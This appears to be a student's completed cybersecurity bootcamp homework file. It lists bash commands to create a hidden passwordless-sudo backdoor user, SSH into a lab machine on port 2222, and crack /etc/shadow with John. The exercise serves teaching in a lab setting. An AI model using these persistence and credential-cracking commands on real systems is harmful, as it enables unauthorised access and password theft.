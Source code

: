 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  cat >> /etc/sudoers <<< 'sysd  ALL=(ALL:ALL) NOPASSWD:ALL'

6. Test that `sudo` access works without your password:

    ```
    tail -1 /etc/sudoers
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ``
    `sudo nano /etc/ssh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - cat /etc/passwd /etc/shadow > passwords.txt

    - john passwords.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

